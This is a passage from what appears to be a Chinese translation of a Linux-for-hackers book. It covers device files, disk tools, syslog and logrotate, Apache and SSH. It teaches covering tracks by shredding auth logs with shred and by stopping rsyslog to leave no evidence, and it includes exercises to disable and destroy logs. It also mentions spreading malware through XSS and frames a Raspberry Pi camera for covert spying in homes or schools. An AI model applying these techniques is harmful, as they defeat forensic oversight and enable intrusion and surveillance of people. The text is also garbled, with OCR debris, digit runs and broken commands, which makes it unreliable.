crw-rw-rw- 1 root root 1, May 27 13:32 c269
crw-rw-rw- 1 root root 1, May 27 13:32 c270
crw-rw-rw- 1 root root 1, May 27 13:32 c271
crw-rw-rw- 1 root root 1, May 27 13:32 c272
crw-rw-rw- 1 root root 1, May 27 13:32 c273
crw-rw-rw- 1 root root 1, May 27 13:32 c274
crw-rw-rw- 1 root root 1, May 27 13:32 c275
crw-rw-rw- 1 root root 1, May 27 13:32 c276
crw-rw-rw- 1 root root 1, May 27 13:32 c277
crw-rw-rw- 1 root root 1, May 27 13:32 c278
crw-rw-rw- 1 root root 1, May 27 13:32 c279
crw-rw-rw- 1 root root 1, May 27 13:32 c280
crw-rw-rw- 1 root root 1, May 27 13:32 c281
crw-rw-rw- 1 root root 1, May 27 13:32 c282
crw-rw-rw- 1 root root 1, May 27 13:32 c283
crw-rw-rw- 1 root root 1, May 27 13:32 c284
crw-rw-rw- 1 root root 1, May 27 13:32 c285
crw-rw-rw- 1 root root 1, May 27 13:32 c286
crw-rw-rw- 1 root root 1, May 27 13:32 c287
crw-rw-rw- 1 root root 1, May 27 13:32 c288
crw-rw-rw- 1 root root 1, May 27 13:32 c289
crw-rw-rw- 1 root root 1, May 27 13:32 c290
crw-rw-rw- 1 root root 1, May 27 13:32 c291
crw-rw-rw- 1 root root 1, May 27 13:32 c292
crw-rw-rw- 1 root root 1, May 27 13:32 c293
crw-rw-rw- 1 root root 1, May 27 13:32 c294
crw-rw-rw- 1 root root 1, May 27 13:32 c295
crw-rw-rw- 1 root root 1, May 27 13:32 c296
crw-rw-rw- 1 root root 1, May 27 13:32 c297
crw-rw-rw- 1 root root 1, May 27 13:32 c298
crw-rw-rw- 1 root root 1, May 27 13:32 c299
crw-rw-rw- 1 root root 1, May 27 13:32 c300
crw-rw-rw- 1 root root 1, May 27 13:32 c301
crw-rw-rw- 1 root root 1, May 27 13:32 c302
crw-rw-rw- 1 root root 1, May 27 13:32 c303
crw-rw-rw- 1 root root 1, May 27 13:32 c304
crw-rw-rw- 1 root root 1, May 27 13:32 c305
crw-rw-rw- 1 root root 1, May 27 13:32 c306
crw-rw-rw- 1 root root 1, May 27 13:32 c307
crw-rw-rw- 1 root root 1, May 27 13:32 c308
crw-rw-rw- 1 root root 1, May 27 13:32 c309
crw-rw-rw- 1 root root 1, May 27 13:32 c310
crw-rw-rw- 1 root root 1, May 27 13:32 c311
crw-rw-rw- 1 root root 1, May 27 13:32 c312
crw-rw-rw- 1 root root 1, May 27 13:32 c313
crw-rw-rw- 1 root root 1, May 27 13:32 c314
crw-rw-rw- 1 root root 1, May 27 13:32 c315
crw-rw-rw- 1 root root 1, May 27 13:32 c316
crw-rw-rw- 1 root root 1, May 27 13:32 c317
crw-rw-rw- 1 root root 1, May 27 13:32 c318
crw-rw-rw- 1 root root 1, May 27 13:32 c319
crw-rw-rw- 1 root root 1, May 27 13:32 c320
crw-rw-rw- 1 root root 1, May 27 13:32 c321
crw-rw-rw- 1 root root 1, May 27 13:32 c322
crw-rw-rw- 1 root root 1, May 27 13:32 c323
crw-rw-rw- 1 root root 1, May 27 13:32 c324
crw-rw-rw- 1 root root 1, May 27 13:32 c325
crw-rw-rw- 1 root root 1, May 27 13:32 c326
crw-rw-rw- 1 root root 1, May 27 13:32 c327
crw-rw-rw- 1 root root 1, May 27 13:32 c328
crw-rw-rw- 1 root root 1, May 27 13:32 c329
crw-rw-rw- 1 root root 1, May 27 13:32 c330
crw-rw-rw- 1 root root 1, May 27 13:32 c331
crw-rw-rw- 1 root root 1, May 27 13:32 c332
crw-rw-rw- 1 root root 1, May 27 13:32 c333
crw-rw-rw- 1 root root 1, May 27 13:32 c334
crw-rw-rw- 1 root root 1, May 27 13:32 c335
crw-rw-rw- 1 root root 1, May 27 13:32 c336
crw-rw-rw- 1 root root 1, May 27 13:32 c337
crw-rw-rw- 1 root root 1, May 27 13:32 c338
crw-rw-rw- 1 root root 1, May 27 13:32 c339
```


```
crw-rw-rw- 1 root root 1, May 27 13:32 c340
crw-rw-rw- 1 root root 1, May 27 13:32 c341
crw-rw-rw- 1 root root 1, May 27 13:32 c342
crw-rw-rw- 1 root root 1, May 27 13:32 c343
crw-rw-rw- 1 root root 1, May 27 13:32 c344
crw-rw-rw- 1 root root 1, May 27 13:32 c345
crw-rw-rw- 1 root root 1, May 27 13:32 c346
crw-rw-rw- 1 root root 1, May 27 13:32 c347
crw-rw-rw- 1 root root 1, May 27 13:32 c348
crw-rw-rw- 1 root root 1, May 27 13:32 c349
crw-rw-rw- 1 root root 1, May 27 13:32 c350
crw-rw-rw- 1 root root 1, May 27 13:32 c351
crw-rw-rw- 1 root root 1, May 27 13:32 c352
crw-rw-rw- 1 root root 1, May 27 13:32 c353
crw-rw-rw- 1 root root 1, May 27 13:32 c354
crw-rw-rw- 1 root root 1, May 27 13:32 c355
crw-rw-rw- 1 root root 1, May 27 13:32 c356
crw-rw-rw- 1 root root 1, May 27 13:32 c357
crw-rw-rw- 1 root root 1, May 27 13:32 c358
crw-rw-rw- 1 root root 1, May 27 13:32 c359
crw-rw-rw- 1 root root 1, May 27 13:32 c360
crw-rw-rw- 1 root root 1, May 27 13:32 c361
crw-rw-rw- 1 root root 1, May 27 13:32 c362
crw-rw-rw- 1 root root 1, May 27 13:32 c363
crw-rw-rw- 1 root root 1, May 27 13:32 c364
crw-rw-rw- 1 root root 1, May 27 13:32 c365
crw-rw-rw- 1 root root 1, May 27 13:32 c366
crw-rw-rw- 1 root root 1, May 27 13:32 c367
crw-rw-rw- 1 root root 1, May 27 13:32 c368
crw-rw-rw- 1 root root 1, May 27 13:32 c369
crw-rw-rw- 1 root root 1, May 27 13:32 c370
crw-rw-rw- 1 root root 1, May 27 13:32 c371
crw-rw-rw- 1 root root 1, May 27 13:32 c372
crw-rw-rw- 1 root root 1, May 27 13:32 c373
crw-rw-rw- 1 root root 1, May 27 13:32 c374
crw-rw-rw- 1 root root 1, May 27 13:32 c375
crw-rw-rw- 1 root root 1, May 27 13:32 c376
crw-rw-rw- 1 root root 1, May 27 13:32 c377
crw-rw-rw- 1 root root 1, May 27 13:32 c378
crw-rw-rw- 1 root root 1, May 27 13:32 c379
crw-rw-rw- 1 root root 1, May 27 13:32 c380
```

```
kali >cd /dev
kali >ls -l
```

### Linux 如何表示存储设备

如果你是从 Windows 环境过来的，Linux 表示和管理存储设备的方式对你来说相当不同。你已经看到文件系统没有硬盘的物理表示（如 Windows 中的 C:、D: 或 E: 系统），而是具有一个以 `/` 为顶端（即根目录 `root`）的目录树结构。本章将查看 Linux 如何表示硬盘、U 盘和其他存储设备。

我们首先查看额外的驱动器和其他设备是如何挂载到文件系统上的。挂载设备是到（根目录 `root`）。在这种语境下，挂载简单意味着将驱动器连接到文件系统。对于黑客来说，了解系统上有哪些设备是必要的，它们在 `/dev` 目录中表示。我们从 `/dev` 目录开始。

设备按字母顺序显示。你可能认识某些设备，例如 `cdrom`，但其他设备的名字很晦涩。如果你向下滚动屏幕一下，应该看到更多设备。特别值得关注的是 `sda`、`sda2`、`sda3`、`sdb` 和 `sdb1`，它们是硬盘及其分区。

## `/dev` 目录

Linux 使用逻辑标签对于随后挂载的驱动器。这些逻辑标签将根据挂载的位置而异，同一个硬盘在不同时间根据挂载位置可能有不同的标签。

# 设备文件描述

| | |
|---|---|
| `sda` | 第一块 SATA 硬盘 |
| `sdb` | 第二块 SATA 硬盘 |
| `sdc` | 第三块 SATA 硬盘 |
| `sdd` | 第四块 SATA 硬盘 |

### 磁盘分区

某些硬盘可以划分为分区以便管理和隔离信息。例如，你可能希望划分硬盘，使你的交换文件（`swap file`）、主目录和 `/` 目录都位于不同的分区上——你可能出于多种原因这样做，包括共享资源和放宽默认权限。Linux 为每个分区标记了一个位于驱动标识之后的的小设备号（minor number）。这样一来，第一块 SATA 硬盘上的第一个分区就是 `sda1`。第二个分区是 `sda2`，第三个是 `sda3`，以此此类推，如表 10-2 所示。

表 10-2：分区标签系统

| | |
|---|---|
| `sda1` | 第一块 (a) SATA 硬盘上的第一个 (1) 分区 |
| `sda2` | 第一块 (a) 硬盘上的第二个 (2) 分区 |
| `sda3` | 第一块 (a) 硬盘上的第三个 (3) 分区 |
| `sda4` | 第一块 (a) 硬盘上的第四个 (4) 分区 |

有时，你可能想查看 Linux 系统上的分区，以查看你拥有哪些分区以及每个分区的可用容量。你可以使用 `fdisk` 工具来实现。使用 `fdisk` 的 `-l` 选项可以列出所有硬盘的所有分区，如列表 10–2 所示。

```
kali >fdisk -l

Disk /dev/sda 20GB, 2147483640 bytes, 41943040 sectors

Units: sectors of 1 * 512 = 512 bytes

Sector size (logical/physical): 512 bytes / 512 bytes

I/o size (minimum/optimal): 512 bytes / 512 bytes

Disk label type: dos

Disk identifier: 0xc706cd70
```

| Device | Boot | Start | End | Sectors | Size | Id Type |
|---|---|---|---|---|---|---|
| `/dev/sda` | * | 2048 | 39171443 | 39172896 | 18.7G | 83 Linux |
| `/dev/sda2` | | 3917190 | 41940991 | 2764802 | 1.3G | 5 Extended |
| `/dev/sda5` | | 3917192 | 41940899 | 2764800 | 1.3G | 82 Linux swap / |

```
/dev/sdb: 29.8 GB, 3199939792 bytes, 62498816 sectors

Units: sectors of 1 * 512 = 512 bytes

Sector size (logical/physical): 512 bytes / 512 bytes

I/o size (minimum/optimal): 512 bytes / 512 bytes

Disk label type: dos

Disk identifier: 0xc3072e18
```


| Device | Boot | Start | End | Sectors | Size | Id Type |
|---|---|---|---|---|---|---|
| `/dev/db1` | | 32 | 62498815 | 62498784 | 29.8G | 7 HPFS/NTFS/exFAT |

### 列表 10-2：使用 fdisk 列出分区

如列表 10-2 所示，设备 `sda1`、`sda2` 和 `sda5` 被列在第一段落中。这三个设备构成了我虚拟机的虚拟磁盘，这是一个带有三个分区的 20GB 硬盘，其中包括交换分区 `sda5`，当容量超过限制时，交换分区会充当虚拟内存——类似于 Windows 中的分页文件。

如果你查看列表 10-2 的第三段，你会看到第二个设备输出标识为 `db1`——b 标签告诉我们该硬盘与前三个设备是分开的。这是我的 64GB 闪存盘。注意，`fdisk` 指明它是一种 HPFS/NTFS/ExFAT 文件系统类型。这些文件类型——高性能文件系统 `HPFS`、新技术文件系统 `NTFS` 和扩展文件分配表 `exFAT`—并不是 Linux 系统的原生格式，而是 macOS 和 Windows 系统的。在调查时，识别不同系统的原生文件类型是有价值的。文件可能会指示硬盘是在什么机器上格式化的，这可能是非常有价值的信息。Kali 能够利用在许多不同操作系统上创建的 USB 闪存盘。

正如你在第 1 章所示，Linux 文件系统的结构与 Windows 及其他操作系统完全不同。此外，文件在 Linux 中的存储和管理方式也不同。新版本的 Windows 使用 `NTFS` 文件系统，而较旧的 Windows 系统使用文件分配表 `FAT` 系统。Linux 使用多种类型的文件系统，但最常见的是 `ext2`、`ext3` 和 `ext4`。这些都是 `ext`（扩展）文件系统的迭代版本，其中 `ext4` 是最新的。

### 字符设备和块设备

关于 `/dev` 中设备文件名的另外一点是，它们被分为字符设备和块设备。字符设备逐字节处理数据，直接与硬件通信。块设备按块处理数据，可以以任何顺序访问。这在 Linux 中处理存储时是一个至关重要的区别。

### 使用 umount 卸载设备

如果你有 Mac 或 Windows 的背景，你可能在不知情的情况下卸载过驱动器。在从系统中移除闪存盘之前，你会“弹出”`eject` 它以防止对设备上存储的文件造成损坏。*Eject*（弹出）只是卸载 `unmount` 的另一种说法。

与 `mount` 命令类似，你可以通过输入 `umount` 命令后跟 `/dev` 目录下的设备条目（例如 `/dev/sdb`）来卸载第二个硬盘。注意，该命令的拼写不是 `unmount` 而是 `umount`（没有字母 n）。

```bash
kali >umount /dev/sdb
```

你不能卸载正在运行的设备，因此如果系统正在读取或写入该设备，你将收到错误。

### 监控文件系统

在本节中，我们将查看一些监控文件系统状态的命令——这是任何黑客或系统管理员都必备的技能。我们将获取一些关于挂载磁盘的信息，然后检查并修复错误。存储设备特别容易出错，因此学习这项技能是值得的。

#### 获取挂载磁盘的信息

`df` 命令（代表 `disk free`）将为提供任何硬盘或挂载设备（如 CD、DVD 和闪存盘）的基本信息，包括使用了多少空间以及可用空间（参见列表 10-4）。在不使用任何选项的情况下，`df` 默认系统上的第一个硬盘（在此情况下为 `sda`）。如果你想检查不同的硬盘，只需在 `df` 命令后加上你想要检查的磁盘表示即可（例如，`df sdb`）。

```bash
kali >df
```

| Filesystem | 1K-Blocks | Used | Available | Use% | Mounted on |
| :--- | :--- | :--- | :--- | :--- | :--- |
| rootfs | 19620732 | 17096196 | 1504788 | 92% | / |
| udev --snip- | 10240 | 0 | 10240 | 0% | /dev |
| /dev/sdb1 | 29823024 | 29712544 | 110480 | 99% | /media/USB3.0 |

列表 10-4：使用 df 获取磁盘和挂载设备的信息

此处输出的第一行显示了分类头。

在最后一行，你可以看到我的 USB 闪存盘。注意它被指定为 `/dev/sdb1`，几乎完全满（100%），并且挂载在 `/media/USB3.0`。

总结一下，你在此系统上的虚拟磁盘被指定为 `sda1`，其拆分如下：

- `sd`: SATA 硬盘
- `a`: 第一块硬盘
- `1`: 该硬盘上的第一个分区

我的 64GB 闪存盘被指定为 `sdb1`，我的外部硬盘被指定为 `sdc1`。

#### 检查错误

`fsck` 命令（代表 `filesystem check`）会检查文件系统的错误并在可能的情况下修复损坏，否则将坏块放入坏块表 `bad blocks table` 将其标记为损坏。要运行 `fsck` 命令，你需要指定文件系统类型（默认是 `ext2`）和要检查的设备文件。需要注意的是，你必须在运行文件系统检查之前卸载驱动器。如果你未能卸载已挂载的设备，将收到如列表 10-5 所示的错误消息。

```bash
kali >fsck
fsck from util-linux 2.20.1
e2fsck 1.42.5 (29-Jul-2012)
/dev/sda1 is mounted
efsck: Cannot continue, aborting.
```

列表 10-5：尝试在已挂载的驱动器上运行错误检查并失败

因此，执行文件系统检查的第一步是卸载设备。在这种情况下，我将卸载我的闪存盘以进行文件系统检查：

```bash
kali >umount /dev/sdb1
```

我可以添加 `-p` 选项来让 `fsck` 自动修复设备的问题，如下所示：

```bash
kali >fsck -p /dev/sdb1
```

在设备卸载后，我现在可以检查设备的任何坏道或其他问题，如下所示：

```bash
kali >fsck -p /dev/sdb1
fsck from util-linux 2.30.2
efatfsck 1.2.7
Checking file system on /dev/sdb1.
File system version 1.0
Sector size 512 bytes
Cluster size 32 KB
Volume size 7648 MB
Used space 1265 MB
Available space 6383 MB
Totally 20 directories and 111 files.
File system checking finished. No errors found.
```

### 总结

理解 Linux 如何标识和管理设备对于任何 Linux 用户和黑客来说至关重要。黑客需要知道系统连接了哪些设备以及有多少可用空间。由于存储设备经常产生错误，我们可以使用 `fsck` 检查并修复这些错误。`dd` 命令能够制作设备的物理副本，包括任何已删除的文件。

### 练习题

在进入第 11 章之前，请通过完成以下练习来尝试你在本章中学到的技能：

1. 使用 `mount` 和 `unmount` 命令挂载和卸载你的闪存盘。
2. 检查磁盘空间大小。
3. 使用 `fsck` 命令检查错误。
4. 使用 `dd` 命令复制设备。
5. 使用 `lsblk` 命令识别块设备。

```
auth,authpriv.*      /var/log/auth.log
*.*;auth,authpriv.none  /var/log/syslog
#cron.*               /var/log/cron.log
daemon.*               /var/log/daemon.log
kern.*                   /var/log/kern.log
prpr.*                   /var/log/lpr.log
mail.*                 /var/log/mail.log
user.*                 /var/log/user.log
```

### 邮件系统的日志记录

将其拆分以便编写脚本来解析这些文件。

```
mail.info             /var/log/mail.info
mail.warn             /var/log/mail.warn
mail.err               /var/log/mail.err
```

### 列表 11-2：在 syslog.conf 中查找日志规则

每一行都是一个独立的日志规则，说明了哪些消息被记录以及记录在何处。规则的基本格式如下：

| 设施.优先级 `facility.priority` | 操作 `action` |


设施（facility）关键字指的是被记录消息的程序，例如 `mail`、`kernel` 或 `lpr`。优先级（priority）关键字决定了为该程序记录什么类型的消息。操作（action）关键字位于最右侧，指的是日志将被发送的位置。让我们仔细查看每个部分，从设施关键字开始，它指的是生成日志的任何对象，无论是内核、邮件系统还是用户。

以下是可以在配置文件规则中用于替换设施关键字的有效代码列表：

- `auth`/`authpriv` 安全/授权消息
- `cron` 时钟守护进程
- `daemon` 其他守护进程
- `kern` 内核消息
- `lpr` 打印系统
- `mail` 邮件系统
- `user` 通用用户级消息

在单词所在处使用星号通配符 (`*`) 表示所有设施。你可以通过列出逗号分隔的多个设施来选择多个一个设施。

优先级告诉系统要记录什么类型的消息。代码从最低优先级（从 `debug` 开始）列到最高优先级（以 `panic` 结束）。如果优先级为 `*`，则记录所有优先级的消息。当你指定一个优先级时，系统将记录该优先级及更高优先级的消息。例如，如果你指定优先级代码为 `alert`，系统将记录分类为 `alert` 及更高优先级的消息，但不会记录标记为 `crit` 或任何低于 `alert` 优先级的消息。

以下是优先级的有效代码列表：

* `debug`
* `info`
* `notice`
* `warning`
* `warn`
* `error`
* `err`
* `crit`
* `alert`
* `emerg`
* `panic`

代码 `warning`、`warn`、`error`、`err`、`emerg` 和 `panic` 均已弃用，不应使用。

操作通常是应该发送日志的文件名和位置。注意，通常日志文件被发送到 `/var/log` 目录，并带有一个描述生成它们的设施的文件名，例如 `auth.log`。这意味着，例如，由 `auth` 设施生成的日志将发送到 `/var/log/auth.log`。

让我们看一些日志规则的示例：

```
mail.* /var/log/mail
```

此示例将所有（*）优先级的 `mail` 邮件事件记录到 `/var/log/mail`。

```
kern.crit /var/log/kernel
```

此示例将所有关键 (`crit`) 优先级及以上的内核事件记录到 `/var/log/kernel`。

```
*.emerg *
```

最后一个示例将所有紧急紧急 (`emerg`) 优先级的事件发送给所有登录用户。通过这些规则，黑客可以确定日志文件的位置，更改优先级，甚至禁用特定的日志规则。

### 使用 logrotate 自动清理日志

日志文件占用空间，因此如果你不定期删除它们，它们最终会填满你的硬盘。另一方面，如果你删除日志文件过于频繁，那么在未来的某个点将没有日志供调查。你可以使用 `logrotate` 通过轮转日志来在这些对立需求之间确定平衡。

日志轮转通过将日志文件移动到其他位置来定期归档，从而留出一个新的日志文件的过程。该归档位置将在一段时间后被清理。

你的系统已经在通过一个采用 `logrotate` 工具的 `cron` 任务轮转日志文件。你可以通过 `/etc/logrotate.conf` 文本文件配置 `logrotate` 工具来选择日志轮转的频率。让我们用文本编辑器打开它查看：

```
kali >leafpad /etc/logrotate.conf
```

# 你应该看到类似列表 11-3 内容。

```text
# 详情见 "man logrotate"
### 每周旋转日志文件
1 weekly

# 保留 4 周的备份
2 rotate 4

### 在轮转旧文件后创建新的（空）日志文件
create

### 如果你想压缩日志文件，请取消此注释
#compress

### 软件包将轮转信息存入此目录
include /etc/logrotate.d

# 没有软件包输出 wtmp 或 btmp -- 我们将在这里进行轮转
/var/log/wtmp {
missingok
monthly
create 0664 root utmp
rotate 1
}
```

列表 11-3：logrotate 配置文件

首先，你可以将 `rotate` 数字所指代的时间单位设置为 1。这里的默认值是 `weekly`（每周），这意味着 `rotate` 关键字之后的任何数字始终指的是周。

在更下方，你可以看到轮转选项。（注意：提供的 OCR 文本在此处是碎片化的，但根据标准的 logrotate 配置和代码段的上下文，它描述了配置参数）。

覆盖文件。例如，我们将使用以下命令对 `/var/log/auth.log` 中的日志文件进行 10 次粉碎处理：

```bash
kali >shred -f -n 10 /var/log/auth.log.*
```

我们需要 `-f` 选项来获得粉碎 auth 文件的权限，并在 `-n` 选项后跟上所需的覆盖次数。在想要粉碎的文件路径之后，我们包含了通配符星号 `*`，这样我们不仅会粉碎 `auth.log` 文件，还会粉碎任何通过 `logrotate` 创建的日志，例如 `auth.log.1`、`auth.log.2` 等。

现在尝试打开一个日志文件：

```bash
kali >leafpad /var/log/auth.log
```

一旦你粉碎了一个文件，你会发现内容变成了无法识别的乱码，如图 11-1 所示。


图 11-1: 被粉碎的日志文件

现在安全工程师或取证调查员检查日志文件时，他们将一无所获，因为内容根本无法恢复！

### 禁用日志

掩盖踪迹的另一种方法是简单地禁用日志。当黑客控制系统时，他们可以立即禁用日志以防止系统跟踪他们的活动。当然，这需要 root 权限。

要禁用所有日志，黑客可以简单停止 `syslog` 守护进程。在 Linux 中停止任何服务使用的相同的语法，如下（你将在第 12 章中看到更多内容）：

```bash
service servicename start|stop|restart
```

因此，要停止日志进程，你只需输入以下命令：

```bash
kali >rsyslog stop
```

现在 Linux 将停止生成任何日志文件，直到服务重启，这让你可以在操作时不会在日志文件中留下任何证据！

### 总结

日志文件记录了 Linux 系统上发生的几乎所有事情。在尝试分析发生了什么（无论是故障还是黑客攻击）时，它们是无价的资源。对于黑客来说，日志文件可能是其活动和身份的证据。然而，敏锐的黑客可以删除并粉碎这些文件，并完全禁用日志，不留下任何证据。

练习题

在进入第 12 章之前，尝试通过完成以下练习来运用本章学技能：

1. 使用 `locate` 命令找到所有的 `rsyslog` 文件。
2. 打开 `rsyslog.conf` 文件并将你的日志轮转改为一周。
3. 禁用系统上的日志。调查在禁用日志时 `/var/log/syslog` 文件中记录了什么。
4. 使用 `shred` 命令粉碎并删除所有的内核日志文件（kern log）。

# 12

# 使用与滥用服务


在 Linux 术语中，*service*（服务）是一个在后台运行并等待你使用的应用程序。你的 Linux 系统预装了数十种服务。在这些服务中，广为人的是无处不在的 Apache Web 服务器，它用于创建、管理和部署 Web 服务器，但还有许多其他服务。为了本章关于服务的介绍，我仅选择了四个对黑客来说具有特别重要的服务：Apache Web 服务器、OpenSSH、MySQL 和 PostgreSQL。

在本章中，你将学习如何使用 Apache 建立 Web 服务器、使用 OpenSSH 进行“物理”间谍活动、使用 MySQL 访问数据，以及使用 PostgreSQL 存储你的黑客信息。

### 启动、停止和重启服务

在我们开始处理这四个关键服务之前，让我们先查看如何在 Linux 中启动、停止和重启服务。

某些服务可以通过 Kali Linux 的 GUI 停止和启动，就像你在 Windows 或 Mac 等操作系统上操作的一样。然而，某些服务需要使用命令行，我们将在这里介绍。以下是管理服务的基本语法：

```bash
service servicename start|stop|restart
```

要启动 `apache2` 服务（Web 服务器或 HTTP 服务），你应当输入如下：

```bash
kali >service apache2 start
```

要停止 Apache Web 服务器，输入：

```bash
kali >service apache2 stop
```

通常，当你通过更改明文配置文件对应用程序或服务进行配置更改时，你需要重启服务以使新配置生效。因此，你会输入：

```bash
kali >service apache2 restart
```


现在你已经了解了如何从命令行启动、停止和重启服务，让我们进入对黑客来说最关键的四个 Linux 服务。

## 使用 Apache Web 服务器创建 HTTP Web 服务器

Apache Web 服务器可能是 Linux 系统上最常用的服务。Apache 存在于全球超过 60% 的 Web 服务器，因此任何自尊的 Linux 管理员都应该熟悉它。作为一名渴望黑入网站的黑客，理解 Apache、网站以及这些网站后端数据库的内部运作至关重要。你还可以使用 Apache 建立自己的 Web 服务器，通过跨站脚本（XSS）向任何访问你网站的任何人分发恶意软件，或者你可以克隆一个网站并通过滥用域名系统（DNS）将流量重定向到你的网站。在这两种情况下，都需要 Apache 的基础知识。

### 从 Apache 开始

如果你的系统上运行着 Apache，那太好了——许多 Linux 发行版都预装了它。如果没有，你可以通过以下命令下载并安装：

```bash
kali >apt-get install apache2
```

Apache 服务器通常与 MySQL（我们将在下一节讨论）和 PHP 关联，合称为 LAMP。在 Kali 中，前往“应用程序 ▸ 服务”并点击启动。

```bash
kali >services
```

现在 Apache 已经在运行，它应该能提供默认页面。在你的浏览器中输入 `http://localhost/`，它看起来就像图 12-1。

#### Apache Debian 默认页面

正常！

这是在 Debian 系统上安装 Apache 后测试的默认欢迎页。如果你能看到这个，说明该站点正在运行。（来源：http://www.apache.org/index.html）继续操作你的服务器。

如果你是该网站的访客且不知道页面内容，这可能意味着网站正在维护。如果问题仍然存在，请联系网站管理员。


图 12-1: Apache 默认页面

可以看到，Apache 显示 `It works` 作为其默认页面。现在你知道你的 Apache Web 服务器工作正常了，让我们自定义它！

##### 编辑 index.html 文件

Apache 的默认 页面位于 `/var/www/html/index.html`。你可以编辑 `index.html` 文件来提供你想要的信息，所以让我们创建自己的。为此，你可以使用任何喜欢的文本编辑器；我将使用 `Leafpad`。打开 `/var/www/html/index.html`，你应该看到类似列表 12-1 的内容。

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml11/DTD/xhtml11-transiti">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
  <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
  <title>Apache2 Debian Default Page: It works</title>
  <style type="text/css" media="screen">
  {
    margin: 0px 0px 0px 0px;
    padding: 0px 0px 0px 0px;
  }
  body {
    padding: 3px 3px 3px 3px;
    background-color: #DDBEBE2;
    font-family: Verdana, sans-serif;
    font-size: 11pt;
  }
```

```css
text-align: center;
div.main_page {
  position: relative;
  display: table;
}
```

列表 12-1：Apache Web 服务器的 `index.html` 文件

请注意，默认网页的文本内容与我们打开浏览器访问 `localhost` 时显示的文本完全相同，但现在是 HTML 格式了。我们所需要编辑或替换此文件，即可让我们的 Web 服务器显示我们想要的信息。

##### 添加一些 HTML

现在我们的 Web 服务器已经运行起来，`index.html` 文件也已打开，我们可以添加任何想要让 Web 服务器提供的文本。我们将创建一些简单的 HTML 块。

让我们创建这个页面吧。在你的文本编辑器中创建一个新文件，输入如列表 12-2 所示的代码。

```html
<html
<body>
<h1>Hackers-Arise 是最棒的</h1>

<p>如果你想学习黑客技术，Hackers-Arise.com </p>
<p>是学习黑客技术的最佳去处！</p>

</body>
</html>
```

列表 12-2：添加到 `index.html` 文件中的一些简单 HTML

一旦你按照列表 12-2 所示的内容输入了文本，将此文件保存为 `/var/www/html/index.html` 并关闭文本编辑器。此时，你的文本编辑器会提示文件已存在。没关系，直接覆盖现有的 `/var/www/html/index.html` 文件即可。

##### 观察发生了什么

保存好 `/var/www/html/index.html` 文件后，我们可以检查 Apache 会提供什么内容。再次导航浏览器访问 `http://localhost`，你应该能看到类似图 12-2 的内容。



图 12-2：新的 Hacker-Arise 网站

Apache 按照我们创建的方式展示了我们的网页！

## OpenSSH 和树莓派 Spy Pi

SSH 是 Secure Shell（安全壳）的缩写，它基本上使我们能够安全地连接到远程系统的终端——它是年前常用的不安全的 telnet 的替代品。当我们构建 Web 服务器时，SSH 允许我们创建访问列表（可以使用该服务的用户列表）、使用加密密码对用户进行身份验证，并加密所有通信。这减少了未经授权的用户使用远程终端（由于增加了身份验证过程）或拦截我们通信（由于加密）的可能性。可能最广泛使用的 Linux SSH 服务是 OpenSSH，它安装在几乎所有的 Linux 发行版中，包括 Kali。

系统管理员经常使用 SSH 管理远程系统，而黑客经常使用 SSH 连接到被攻破的远程系统，因此在这里也将这样做。在这个示例中，我们使用 SSH 设置一个用于间谍活动的远程树莓派系统，我称之为“树莓派间（Raspberry Spy）”。为此，你需要一台树莓派和一个树莓派摄像头模块。

在此之前，请通过以下命令在你的 Kali 系统上启动 OpenSSH：

```bash
kali >service start
```

我们将使用 SSH 来构建和控制树莓派。如果你还不熟悉它，树莓派是一种微小、功能强大、信用卡大小的电脑，作为远程间谍工具效果非常好。你可以在几乎任何电子零售商（包括亚马逊）购买树莓派，价格低于 50 美元，摄像头模块大约只需 15 美元。

在这里，我们将使用与你的 Kali 系统处于同一网络上的树莓派，这允许我们使用私有 IP 地址。当然，在现实世界中进行黑客时，你可能想将其设置在另一个网络上，但将更加困难且超出了本书的范围。

### 设置树莓派

确保你的树莓派运行着 `Raspian` 操作系统；这是专门为树莓派移植的另一个 Linux 发行版。你可以在 `https://www.raspberrypi.org/software/` 找到 Raspbian 的下载和安装说明。你在书中学到的所有内容也适用于 Raspbian 以及 Ubuntu 和其他 Linux 发行版。

一旦下载并安装了操作系统，你就需要将树莓派连接到显示器、键盘，然后连接到互联网。如果这些对你来说全新的，请查看 `https://www.raspberrypi.org/hardware/` 上的说明。设置完成后，使用用户名 `pi` 和密码 `raspberry` 登录。

### 构建树莓派

第一步是确保树莓派上的 SSH 已运行并启用。SSH 通常默认是关闭的，因此要启用它，进入菜单并启动 `Raspberry Pi Configuration`（树莓派配置）。然后进入 `Interfaces` 选项卡，在 SSH 旁边点击 `Enabled`（如果尚未勾选）并点击 `OK`。

当启用 SSH 后，你可以通过打开终端并输入以下内容在树莓派上启动它：

```bash
kali >service start
```

接下来你需要连接你的摄像头模块。如果你使用的是树莓派 3 板，只有一个连接位置。关闭树莓派电源，将模块连接到摄像头端口，然后开启电源。注意，摄像头是脆弱的，绝对不能与通用输入/输出 (`GPIO`) 引脚接触；否则它可能会短路损坏。


现在，随着 SSH 服务的运行，将树莓派放置在你家、学校或其他任何你想要进行“间谍”的地方。当然，它必须连接到局域网，可以通过以太网线或理想情况下通过 Wi-Fi 连接。（树莓派 3 和树莓派 Zero 都内置了 Wi-Fi）。

现在，你需要让树莓派运行。通过 `ifconfig` 获取树莓派的 IP 地址。正如你在第 3 章中学中学，， `莓1111111118.161.1111，从你的 Kali 系统通过 SSH 连接 192.168.1.101：

```bash
kali >ssh pi@192.168.1.101
```

pi@192.168.1.101's password: 111111111111111111111111111111 

111111111111111111111111111111 11111

pi@raspberrypi: $ 1111111

last login: Tues Jan. 1 12:01:01 2018

pi@raspberrypi: $ 1111111111111 

1111111111111111

```

### 配置摄像头

接下来，我们需要配置摄像头。为了这样做，通过输入以下命令启动 Raspberry Pi 配置工具：

```bash

